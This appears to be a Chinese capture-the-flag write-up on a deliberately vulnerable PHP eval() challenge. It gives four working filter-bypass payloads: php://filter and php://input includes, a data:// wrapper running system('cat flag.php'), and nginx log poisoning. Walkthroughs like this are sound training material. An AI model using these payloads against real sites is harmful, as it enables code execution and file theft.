








```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

flag

system

php

cat

sort

shell

.

'

`

echo

;

(

:

"


还是可以用上题的payload


## 第一种

嵌套include结合php://filter

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```






## 第二种

include结合php://input

GET

```
?c=include$_GET[a]?>&a=php://input
```

POST

```
<?php system("cat flag.php");?>
```




## 第三种

include结合data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```




## 第四种

日志注入

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```



抓包，修改UA头 





GET

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```

POST

```
a=system("cat flag.php");
```

